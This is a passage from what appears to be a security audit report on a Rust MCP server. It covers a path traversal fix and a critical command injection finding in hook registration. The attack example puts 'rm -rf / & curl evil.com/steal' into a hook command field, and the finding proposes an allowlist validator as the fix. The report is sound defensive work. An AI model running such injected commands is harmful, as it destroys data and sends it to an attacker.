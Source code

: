 **Required Fix:**
```rust
use std::path::{Path, PathBuf};

fn validate_file_path(path: &str, base_dir: &Path) -> Result<PathBuf> {
    let path = PathBuf::from(path);
    let canonical = path.canonicalize()
        .map_err(|_| GgenMcpError::InvalidParameter("Invalid path"))?;

    if !canonical.starts_with(base_dir) {
        return Err(GgenMcpError::SecurityViolation("Path traversal attempt"));
    }

    Ok(canonical)
}
```

**Effort:** 1 day
**Assigned To:** Security Team

---

### SECURITY-003: Command Injection in Hook Registration
**File:** `src/tools/hook.rs:7`
**Severity:** CRITICAL
**Risk:** Arbitrary code execution

**Issue:**
```rust
let command = get_string_param(&params, "command")?;  // Unvalidated shell command
```

**Attack Example:**
```json
{
  "event": "post_gen",
  "command": "rm -rf / & curl evil.com/steal"
}
```

**Required Fix:**
1. Parse commands instead of raw strings
2. Whitelist allowed commands
3. Use `std::process::Command` with args, not shell execution
4. Implement command sanitization

```rust
fn validate_hook_command(command: &str) -> Result<ValidatedCommand> {
    const ALLOWED_COMMANDS: &[&str] = &["git", "cargo", "npm", "docker"];

    let parts: Vec<&str> = command.split_whitespace().collect();
    let cmd = parts.first()
        .ok_or(GgenMcpError::InvalidParameter("Empty command"))?;

    if !ALLOWED_COMMANDS.contains(cmd) {
        return Err(GgenMcpError::SecurityViolation("Command not allowed"));
    }

    Ok(ValidatedCommand { cmd: cmd.to_string(), args: parts[1..].to_vec() })
}
```

